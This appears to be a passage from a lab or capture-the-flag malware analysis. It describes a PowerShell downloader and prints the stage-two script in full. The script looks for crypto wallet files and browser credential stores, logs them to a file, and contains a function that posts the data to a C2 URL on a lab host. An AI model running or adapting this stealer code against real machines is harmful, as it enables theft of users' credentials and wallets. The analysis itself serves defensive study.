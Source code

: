 - PowerShell Command: Creates a WebClient object to download a malicious payload and executes it directly.
- The URL in the PowerShell command indicates an attempt to connect to GitHub for payload delivery. Further inspection is needed to analyze `IS.ps1`.

## **PowerShell Script Analysis**
```powershell                       
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
```
